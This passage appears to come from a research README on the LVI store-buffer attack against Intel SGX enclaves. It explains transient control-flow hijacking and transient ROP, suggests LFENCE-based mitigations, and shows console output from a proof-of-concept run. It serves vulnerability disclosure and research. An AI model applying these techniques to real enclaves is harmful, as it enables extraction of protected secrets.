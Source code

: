 Architecturally the enclave will always follow the intended control/data flow,
but an SGX page table adversary may force the legit load on line (4) to fault
and read the untrusted attacker value from the store buffer instead of from
trusted enclave memory. The transient instructions following the faulting load
will now compute on the value from the store buffer and hence redirect
transient control flow to an arbitrary attacker-controlled location. Much like
Spectre v2 branch poisoning attacks, this ultimately allows attackers to abuse
"2nd-stage gadgets" in the existing enclave code base to dereference arbitrary
secrets and encode them in the microarchitectural CPU state.

Note that for clarity we focused on hijacking RET control flow in the above
example, but we also demonstrated successful LVI attacks for JMP/CALL indirect
control flow instructions. This effectively shows that we can arbitrarily
hijack transient return control flow, even in the presence of strong
Spectre-RSB/BTB mitigations that flush shared RSB/BTB buffers on enclave entry.
Interestingly, we also found that large or multiple user stores enable
attackers to setup a fake "transient stack" in the store buffer so as to
repeatedly inject illegal values for consecutive enclave stack loads (POP/RET
sequences). Much like in architectural ROP, such capability allows to chain
together multiple 2nd stage gadgets to compose arbitrary transient computations
of interest.

**Suggested mitigation.** Insert LFENCE instructions after loading branch target addresses from trusted memory, and before redirecting control flow. Break up x86 `ret` instructions into explicit load and branch instructions.

**Proof-of-concept code.** Enable this PoC through `#define LVI_SB_ROP 1` in `main.c`. Example output for `make run` as follows (on a processor vulnerable to [Fallout](https://mdsattacks.com/)/[MSBDS](https://software.intel.com/security-software-guidance/insights/deep-dive-intel-analysis-microarchitectural-data-sampling)):

``` $ make run
Flush+Reload Threshold: 227
[sched.c] continuing on CPU 1
[main.c] Creating enclave...
==== Victim Enclave ====
[pt.c] /dev/sgx-step opened!
    Base:   0x7f8e67000000
    Size:   8388608
    Limit:  0x7f8e67800000
    TCS:    0x7f8e67481000
    SSA:    0x7f8e67482f48
    AEP:    0x7f8e695fa845
    EDBGRD: debug
[main.c] oracle at 0x563fd9561000
[main.c] user_page at 0x563fd9661000
[main.c] enclave_page_a at 0x7f8e6721e000 w PTE
[pt.c] /dev/mem opened!
+-------------------------------------------------------------------------------------------+
| XD | PK | IGN | RSVD | PHYS ADRS      | IGN | G | PAT | D | A | PCD | PWT | U/S | R/W | P | 
| 0  | x  | x   | 0    | 0x00007053e000 | x   | x | x   | 1 | 1 | x   | x   | 1   | 1   | 1 | 
+-------------------------------------------------------------------------------------------+
[main.c] enclave_page_b at 0x7f8e6721d000 w PTE
+-------------------------------------------------------------------------------------------+
| XD | PK | IGN | RSVD | PHYS ADRS      | IGN | G | PAT | D | A | PCD | PWT | U/S | R/W | P | 
| 0  | x  | x   | 0    | 0x00007053f000 | x   | x | x   | 1 | 1 | x   | x   | 1   | 1   | 1 | 
+-------------------------------------------------------------------------------------------+
R R R R R R R R R R R R R R R R R R R R R R R R R R R R R R R R R R R R R R R R R R R R R R R R R
```

